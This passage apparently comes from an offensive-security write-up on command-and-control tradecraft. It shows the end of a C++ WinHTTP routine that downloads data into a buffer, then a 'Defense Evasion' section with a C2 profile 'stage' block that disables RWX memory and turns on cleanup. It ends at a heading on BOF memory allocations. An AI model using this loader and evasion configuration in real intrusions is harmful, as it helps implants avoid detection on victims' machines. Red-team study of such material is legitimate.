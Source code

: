 ```
    WinHttpSendRequest(
        hRequest,
        WINHTTP_NO_ADDITIONAL_HEADERS,
        0,
        WINHTTP_NO_REQUEST_DATA,
        0,
        0,
        0);

    // receive response
    WinHttpReceiveResponse(
        hRequest,
        NULL);

    // read the data
    std::vector<BYTE> buffer;
    DWORD bytesRead = 0;

    do {

        BYTE temp[4096]{};
        WinHttpReadData(hRequest, temp, sizeof(temp), &bytesRead);

        if (bytesRead > 0) {
            buffer.insert(buffer.end(), temp, temp + bytesRead);
        }

    } while (bytesRead > 0);

    // close all the handles
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);

    return buffer;
}
```


## Defense Evasion

Add this to the C2 profile for memory permissions and clean up: 

```
stage {
    set userwx "false";
    set cleanup "true";
}
```

### BOF Memory allocations
